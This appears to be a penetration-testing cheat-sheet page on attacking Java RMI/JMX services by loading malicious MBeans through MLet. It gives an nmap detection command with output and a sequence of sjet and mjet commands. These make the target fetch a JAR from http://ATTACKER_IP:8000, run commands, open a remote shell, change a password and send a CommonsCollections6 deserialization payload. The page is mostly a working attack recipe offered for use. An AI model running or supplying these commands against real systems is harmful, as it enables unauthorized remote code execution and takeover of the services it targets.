 +++
title = "Java RMI"
date = '2023-04-01'
description = 'All about Java RMI techniques, methods, payloads, how/why/when they work.'
include_toc = 'true'
+++

# Java RMI

> The attacker can host a MLet file and instruct the JMX service to load MBeans from the remote host. 

## Exploitation

### Requirements
- Jython
- The JMX server can connect to a http service that is controlled by the attacker
- JMX authentication is not enabled


### Detection

```bash
$ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
1089/tcp open  java-rmi Java RMI
| rmi-vuln-classloader:
|   VULNERABLE:
|   RMI registry default configuration remote code execution vulnerability
|     State: VULNERABLE
|       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
| rmi-dumpregistry:
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
```

### Remote Command Execution

The attack involves the following steps:
* Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
* Creating a instance of the MBean javax.management.loading.MLet on the target server, using JMX
* Invoking the "getMBeansFromURL" method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
* The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
* The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [sjet](https://github.com/siberas/sjet) or [mjet](https://github.com/mogwailabs/mjet)

```bash
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

## References

* [ATTACKING RMI BASED JMX SERVICES - HANS-MARTIN MÜNCH - 28 APR 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
* [JMX RMI – MULTIPLE APPLICATIONS RCE - Red Timmy Security - 26th March 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
